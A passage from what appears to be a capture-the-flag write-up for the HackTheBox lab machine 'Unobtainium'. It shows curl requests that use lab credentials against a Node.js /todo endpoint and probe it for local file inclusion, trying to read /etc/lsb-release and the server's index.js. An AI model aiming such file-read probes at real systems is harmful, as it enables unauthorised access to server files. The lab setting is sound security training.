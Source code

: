 

    oxdf@parrot$ curl -s http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "todo.txt"}' | jq
    {
      "ok": true,
      "content": "1. Create administrator zone.\n2. Update node JS API Server.\n3. Add Login functionality.\n4. Complete Get Messages feature.\n5. Complete ToDo feature.\n6. Implement Google Cloud Storage function: https://cloud.google.com/storage/docs/json_api/v1\n7. Improve security\n"
    }



## Shell as root in default

### LFI in todo

The last POST above sends `auth` and `filename` parameters. I want to
test if there are limits on the file. I'll go for `/etc/lab-release`:



    oxdf@parrot$ curl http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "/etc/lsb-release"}'



It just hangs and doesn't return anything. This LFI is limited to the
local folder.

I'll try to find the server-side JS for this app. `nmap` showed it was
running NodeJS / Express framework. It took a few guesses (`server.js`,
`main.js`, etc), but eventually I got it with `index.js`:



    oxdf@parrot$ curl http://unobtainium.htb:31337/todo -H "Content-Type: application/json" -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename" : "index.js"}'